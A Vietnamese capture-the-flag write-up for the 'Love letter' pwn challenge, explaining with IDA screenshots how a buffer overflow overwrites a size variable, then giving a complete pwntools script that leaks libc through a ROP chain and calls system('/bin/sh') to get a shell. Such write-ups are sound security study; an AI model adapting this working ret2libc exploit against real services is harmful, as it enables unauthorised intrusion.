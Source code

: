 # Love letter
#### Hình ảnh ida  
![image](https://user-images.githubusercontent.com/111769169/219405773-390fbd80-cfbc-4392-ad58-fdb303480368.png)  
![image](https://user-images.githubusercontent.com/111769169/219406127-96373797-4cb8-419b-b863-2bc2e2f3643a.png)  
![image](https://user-images.githubusercontent.com/111769169/219406236-27dd9ada-2005-47be-8986-92156db55fe8.png)  
#### Chương trình hoạt động  
> Đầu tiên chương trình nhảy vào hàm loveletter, ta chú ý chỗ while sau, đại loại chương trình sẽ cho chúng ta nhập vào biến v2 
> ![image](https://user-images.githubusercontent.com/111769169/219407499-01d77b66-b3e3-4e49-867a-aa3db9ab050b.png)
___  
> Sau đó ở hàm doubt, nếu ta trả lời khác 'Y' thì chương trình sẽ cho nhập size của v2, và chỉ dưới 250 kí tự, nên ban đầu em hơi lú chỗ này  
> ![image](https://user-images.githubusercontent.com/111769169/219408728-9fa83627-0b11-45f3-8ed8-f94373b5ac4f.png)  
> Sau khi được anh Trí hint thì ta thấy nếu ta trả lời là 'Y' (không thực hiện if) thì biến v2 có thể nhập tuỳ ý, nhưng lúc chạy chương trình thì giá trị v1 là 0 nên không thể nhập cho biến v2. Vấn đề bây giờ là làm sao để OW được v1.
___  
> ta để ý địa chỉ ở các biến thì thấy ![image](https://user-images.githubusercontent.com/111769169/219410942-4fa2201f-5b30-471e-961e-d70cfe2a3a05.png) ![image](https://user-images.githubusercontent.com/111769169/219411007-af0d3399-62ee-4086-baba-85bedb823985.png)  
> thì thấy nếu ta nhập đủ 6969byte ở biến v2 hàm loveletter thì có thể OW giá trị v1 hàm doubt, offset v2 và v1 là 244  
> Tuy nhiên do không có hàm thực thi system mà chỉ có /bin/sh lúc nà em chỉ đoán là libc (do ban đầu file có canary), và sau khi được anh Quý hint thì chắc chắn là leak libc 
___ 
> do em chỉ leak được libc còn lúc đưa hàm system thì lỗi EOF =))  
> Sau khi xin được file script thì chúng ta được như sau  
___
```python
from pwn import *

exe = ELF('main_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

def GDB():
    gdb.attach(p, gdbscript='''
    b*0x00000000004013ba

    b*0x0000000000401388
    
    c
    ''')
    input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.LOCAL:
    p = process(exe.path)
else:
    p = remote('loveletter.securinets.tn', 4040)

# GDB()
##################################
### Stage 1: Leak libc address ###
##################################
sa(b'> ', cyclic(6796) + p64(0x500))
sa(b'> ', b'\n')
sa(b'> ', b'Y')

pop_rdi = 0x00000000004014b3
payload = b'A'*(264) + flat(
    pop_rdi, exe.got['puts'],
    exe.plt['puts'],
    exe.sym['main'],
    )
sa(b'now.\n', payload)
p.recvuntil(b'friend!\n')
libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['puts']
info("Libc base: " + hex(libc.address))

##########################
### Stage 2: Get shell ###
##########################
sa(b'> ', cyclic(6796) + p64(0x500))
sa(b'> ', b'\n')
sa(b'> ', b'Y')

pop_rdi = 0x00000000004014b3
payload = b'A'*(264) + flat(
    0x000000000040101a,
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.sym['system']
    )
sa(b'now.\n', payload)

p.interactive()
```
# Phân tích script  
![image](https://user-images.githubusercontent.com/111769169/219415578-c22f2804-97ad-4b0b-9fbb-75ab0d46e296.png)  
![image](https://user-images.githubusercontent.com/111769169/219414568-52ec4c12-0944-4f7b-9124-39e526a8e5fa.png)  
> ta input đủ 6969 để OW biến v1 hàm doubt  
___
![image](https://user-images.githubusercontent.com/111769169/219416198-056c37cc-4afb-4c8b-8181-26ac29d58353.png) 
![image](https://user-images.githubusercontent.com/111769169/219416439-8f18a7a6-20c0-4bb9-8241-c6f351c09cf2.png)  
> ta nhập 264byte để OW đến địa chỉ rip (em đã tìm offset rip)   
> ![image](https://user-images.githubusercontent.com/111769169/219416972-707cd8d3-ffbb-4b35-a30b-a7fe2d76feb1.png)  
> Sau đó trong flat() thì set thanh rip = là got@put và thực thì hàm put, để leak được file libc, sau đó quay về main
___
![image](https://user-images.githubusercontent.com/111769169/219417932-fa686178-6ecd-49ca-98e9-90ba49b03023.png)
> tính base của libc
___
> ta thực hiện lại lần hai chương trình và đẩy hàm system vào
![image](https://user-images.githubusercontent.com/111769169/219418602-1513688e-6841-4c30-bee9-fced04860c5d.png)
> ở đây địa 0x40101a được thêm vào để khắc phục lỗi xmm1 (lúc em làm thì em hum có dòng này =)))
> em đã thử không thêm địa chỉ này mà nhảy sâu vào hàm system nhưng vẫn không khắc phục được lỗi xmm1
___
#### Tổng kết sai sót
Không theo dõi thông báo giải và lúc được biết có file mới thì vẫn giải trên file cũ. Kết quả là file libc khác với server  
Cần cải thiện quá trình debug.  
#### Kiến thức mới
Thay vì ta set các địa chỉ như này  
![image](https://user-images.githubusercontent.com/111769169/219421279-d0561928-8d27-4c5b-8454-32e98c1eb4d5.png)  
___
Thì hàm flat() đại loại sẽ pack() các dữ liệu mình vào thay vì p64()
![image](https://user-images.githubusercontent.com/111769169/219421953-30160aa1-251b-46ee-a5fc-f375dab9b0b7.png)

# Gift shellcode
